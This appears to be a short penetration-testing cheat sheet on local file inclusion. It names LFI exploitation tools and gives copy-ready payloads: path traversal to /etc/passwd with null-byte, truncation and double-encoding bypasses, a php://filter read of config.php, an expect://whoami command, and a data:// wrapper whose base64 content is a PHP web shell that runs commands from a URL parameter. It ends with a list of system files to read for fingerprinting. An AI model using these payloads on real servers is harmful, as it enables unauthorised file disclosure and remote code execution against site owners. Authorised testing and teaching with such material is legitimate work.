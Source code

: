 # LFI Read Access Cheat Sheet

**Author:** Julien Bongars  
**Date:** 2025-10-13 01:00:27
**Path:** 

---

## Useful Tools

- **wfuzz** - Web application bruteforcer
- **LFISuite** - Automated LFI exploitation
- **fimap** - File inclusion mapper
- **Kadimus** - LFI exploitation tool

---

## Reminder: Common LFI Bypass Techniques (for testing)

### Null Byte Injection (PHP < 5.3.4)
```
?file=../../../../etc/passwd%00
```

### Path Truncation
```
?file=../../../../etc/passwd................................................................
```

### PHP Wrappers
```
php://filter/convert.base64-encode/resource=config.php
data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ID8+
expect://whoami
```

### Double Encoding
```
?file=%252e%252e%252f%252e%252e%252fetc%252fpasswd
```
---

## OS & Kernel Information

### System Details
```bash
/etc/os-release          # OS name, version, ID
/proc/version            # Kernel version and build info
/etc/issue               # System identification text
/etc/lsb-release         # Distribution-specific version info
```
